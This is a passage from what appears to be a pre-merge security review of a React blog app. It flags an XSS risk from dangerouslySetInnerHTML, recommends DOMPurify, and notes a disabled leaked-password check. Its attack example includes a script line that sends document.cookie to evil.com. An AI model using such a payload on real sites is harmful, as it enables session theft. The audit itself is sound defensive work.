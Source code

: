**Priority**: IMMEDIATE - Block merge until resolved

---

### C2: XSS Vulnerability via dangerouslySetInnerHTML
**Severity**: 🔴 CRITICAL  
**Risk**: Cross-Site Scripting (XSS) attack vector  
**Impact**: High - Allows arbitrary JavaScript execution

**Affected Code**:
```tsx
// src/pages/BlogPost.tsx:195
<div 
  className="prose prose-lg max-w-none"
  dangerouslySetInnerHTML={{ __html: formatContent(post.content) }}
/>
```

**Attack Vector**:
If blog content contains malicious script:
```html
<script>
  // Steal cookies, redirect, keylog, etc.
  fetch('https://evil.com?cookie=' + document.cookie);
</script>
```

**Fix Required**:
1. Install DOMPurify: `npm install dompurify @types/dompurify`
2. Sanitize HTML before rendering:
```tsx
import DOMPurify from 'dompurify';

<div 
  className="prose prose-lg max-w-none"
  dangerouslySetInnerHTML={{ 
    __html: DOMPurify.sanitize(formatContent(post.content)) 
  }}
/>
```

**Priority**: IMMEDIATE - Security risk

---

## HIGH PRIORITY FINDINGS (P1 - Fix Before Merge)

### H1: Weak Password Protection Disabled
**Severity**: 🟠 HIGH  
**Risk**: Users can set weak/compromised passwords  
**Source**: Supabase Linter WARN 1

**Evidence**:
```
WARN: Leaked password protection is currently disabled
```
